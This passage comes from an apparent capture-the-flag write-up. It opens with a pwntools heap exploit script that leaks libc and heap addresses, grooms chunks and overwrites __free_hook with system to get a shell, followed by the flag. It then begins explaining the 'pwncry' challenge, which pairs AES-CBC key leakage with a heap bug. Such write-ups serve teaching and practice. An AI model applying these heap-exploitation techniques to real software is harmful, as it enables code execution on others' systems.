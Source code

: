 ```py
removeperson(0,0)
viewhouse(0)
io.recvuntil('Person 8   with details  ')
libc_base = u64(io.recvn(6)+'\x00\x00')-0x1e4ca0
log.info('Libc base {}'.format(hex(libc_base)))
viewperson(9,0)
removeperson(1,0)
viewhouse(0)
io.recvuntil('Person 9  ')
heap_base = u64(io.recvn(6)+'\x00\x00')-0xa60
log.info('Heap leak {}'.format(hex(heap_base)))
for i in range(9):
	createperson('HKHK',0x38,'HKHK')
createperson('HKHK',0x418,'HKHK')
createhouse('HKHK',0x18,'HKHK')
for i in range(10):
	addperson(i,1)
for i in range(4):
	removeperson(i,1)
viewperson(5,1)
removeperson(6,1) #delete 5 here
removeperson(7,1)
party(1)
for i in range(3):
	createperson('AAAA',0x38,'BBBB')
for i in range(2):
	createperson('BBBB',0x38,'CCCC')
createperson('AAAA',0x38,'DDDD')
createperson(p64(heap_base+0x60),0x38,'DDDD')
createperson('DDDD',0x38,'KKKK')
createperson(p64(libc_base + free_hook),0x38,'GGGG')
createperson('HKHKK',0x58,p64(libc_base+system))
viewperson(2,0)
removeperson(0,0)
io.interactive()
#inctf{m3h_th4t_w4s_a_trivial_bug_7734736f615f472}
```

## pwncry

##### points - 964, solves - 10
This challenge was pretty simple. (`Meh` Didn't had much satisfaction after solving it./)
The challenge contained two part. Crypto and pwn
I had help of my team-mate `kiona` with the crypto-part
and pwn was pretty simple.

It encrypts the data we send with AES-CBC mode,
The crypto part to solve was, there was a random key on the remote service, which we can leak the key,
libc version 2.23, and the bug easy to find,
but data we send gets encrypted before it gets copied into our buffer, hmmm?
Is there a way around this ?
Yes we can Keep the exact data we want inside the chunk, I had help of our crypto guy on this. But for this we need the key on the remote server.
The binary prints the IV at start,
Asks us a three letters at the start, encrypts it and prints it back, 
